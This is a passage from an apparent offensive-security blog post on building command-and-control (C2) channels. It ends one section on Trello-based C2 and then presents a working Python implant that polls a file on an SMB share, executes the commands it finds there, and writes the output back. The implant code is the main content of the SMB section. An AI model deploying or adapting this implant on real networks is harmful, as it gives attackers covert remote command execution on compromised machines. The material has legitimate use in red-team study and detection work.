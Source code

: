 The script executes the command and adds a comment as the result of the command.
![trello](/assets/img/posts/2024-02-23-c2-all-the-things/trello-1.png)

## Server Message Block (SMB)
> "Server Message Block (SMB) is a communication protocol[1] used to share files, printers, serial ports, and miscellaneous communications between nodes on a network." - Wikipedia

SMB is used for file sharing mostly in a Windows environment. The scenario that can come to mind is when external access is restricted. But systems can still communiate with each other internally. If an attacker gains access to one of these systems, they could use SMB to establish a C2 channel AKA C2 over SMB channel, allowing them to execute commands on another victim machine and receive the results.

### Code
```python
import smbclient
import subprocess
smbclient.ClientConfig(username="", password="")
def Exec(cmd):
    output = subprocess.check_output(cmd, shell=False)
    return output
while True:
    try:
        output = ""
        with smbclient.open_file(r"\\127.0.0.1\share2\\cmd.txt", mode="r") as file:
            content = file.read()
            if not content:
                file.close()
                continue
            output = Exec(content).decode()
            file.close()
        with smbclient.open_file(r"\\127.0.0.1\share2\\output.txt", mode="a") as file:
            file.write(output)
            file.close()
        with smbclient.open_file(r"\\127.0.0.1\share2\\cmd.txt", mode="w") as file:
            file.write("")
            file.close() 
    except Exception as e:
        continue
```
This script authenticates using a username and password and then tries to access and read `cmd.txt` in `share2` shared folder. It executes the command if there is any and if not it constantly checks it. After receiving and executing the command, it stores the output in `output.txt` in the same `share2` shared folder.
